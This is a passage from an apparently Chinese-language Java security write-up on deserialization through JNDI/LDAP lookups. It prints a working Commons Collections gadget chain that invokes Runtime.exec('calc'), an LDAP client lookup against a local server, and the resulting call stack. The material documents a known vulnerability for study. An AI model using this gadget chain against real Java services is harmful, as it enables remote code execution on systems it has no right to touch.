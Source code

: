 ```java
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",new Class[]{}}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,new Object[]{}}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };

        ChainedTransformer chainedTransformer=new ChainedTransformer(transformers);
        Map map=new HashMap();
        Map lazyMap=LazyMap.decorate(map,chainedTransformer);
        TiedMapEntry tiedMapEntry=new TiedMapEntry(lazyMap,"test");
        BadAttributeValueExpException badAttributeValueExpException=new BadAttributeValueExpException(null);
        Field field=badAttributeValueExpException.getClass().getDeclaredField("val");
        field.setAccessible(true);
        field.set(badAttributeValueExpException,tiedMapEntry);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();

        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(badAttributeValueExpException);
        objectOutputStream.close();

        return byteArrayOutputStream.toByteArray();
    }

}
```

客户端

```java
package JNDI;

import javax.naming.InitialContext;

public class ldap_client191 {
    public static void main(String[] args) throws Exception{
        Object object=new InitialContext().lookup("ldap://127.0.0.1:7777/calc");
    }
}
```

调用栈如下：

```java
deserializeObject:532, Obj (com.sun.jndi.ldap)
decodeObject:239, Obj (com.sun.jndi.ldap)
c_lookup:1051, LdapCtx (com.sun.jndi.ldap)
p_lookup:542, ComponentContext (com.sun.jndi.toolkit.ctx)
lookup:177, PartialCompositeContext (com.sun.jndi.toolkit.ctx)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:94, ldapURLContext (com.sun.jndi.url.ldap)
lookup:417, InitialContext (javax.naming)
main:7, ldap_client191(JNDI)
```
